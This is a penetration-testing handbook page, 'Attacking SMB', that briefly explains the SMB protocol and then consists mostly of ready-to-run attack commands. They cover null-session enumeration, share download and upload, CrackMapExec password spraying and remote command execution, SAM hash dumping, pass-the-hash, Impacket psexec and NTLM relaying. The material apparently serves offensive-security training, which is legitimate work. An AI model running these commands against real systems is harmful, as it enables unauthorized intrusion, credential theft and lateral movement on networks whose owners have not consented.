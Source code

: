 ```yaml
---
title: "Attacking SMB"
type: handbook
weight: 3
---
```


`Server Message Block (SMB)` is a communication protocol created for providing shared access to files and printers across nodes on a network. Initially, it was designed to run on top of NetBIOS over TCP/IP (NBT) using TCP port `139` and UDP ports `137` and `138`. However, with Windows 2000, Microsoft added the option to run SMB directly over TCP/IP on port `445` without the extra NetBIOS layer. Nowadays, modern Windows operating systems use SMB over TCP but still support the NetBIOS implementation as a failover.

### Enumeration

```bash
sudo nmap <ip-address> -sV -sC -p139,445
```

### Misconfigurations

#### Anonymous Authentication

If we find an SMB server that does not require a username and password or find valid credentials, we can get a list of shares, usernames, groups, permissions, policies, services, etc. Most tools that interact with SMB allow null session connectivity, including `smbclient`, `smbmap`, `rpcclient`, or `enum4linux`. Let's explore how we can interact with file shares and RPC using null authentication.

#### File Share

```bash
smbclient -N -L //<ip-address>
```

```bash
smbmap -H <ip-address>
```

```bash
smbmap -H <ip-address> --download "<dir>\<file>"
smbmap -H <ip-address> --upload <file-to-upload> "<dir>\<file>"
```

#### Remote Procedure Call (RPC)

```bash
rpcclient -U'%' <ip-address>
```

[Enum4linux](https://github.com/CiscoCXSecurity/enum4linux) is another utility that supports null sessions, and it utilizes `nmblookup`, `net`, `rpcclient`, and `smbclient` to automate some common enumeration from SMB targets such as:

* Workgroup/Domain name
* Users information
* Operating system information
* Groups information
* Shares Folders
* Password policy information

```bash
./enum4linux-ng.py <ip-address> -A -C
```

### Protocol Specifics Attacks

#### Brute Forcing and Password Spray

##### CrackMapExec

```bash
crackmapexec smb <ip-address> -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

```bash
crackmapexec smb <ip-address> -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```
###### Enumerating Logged-on Users

```bash
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

###### Extract Hashes from SAM Database

```bash
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

###### Pass-the-Hash (PtH)

```bash
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

##### Impacket (PsExec, NTLMrelayx)

```bash
impacket-psexec administrator:'Password123!'@<ip-address>
```

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t <ip-address>
```
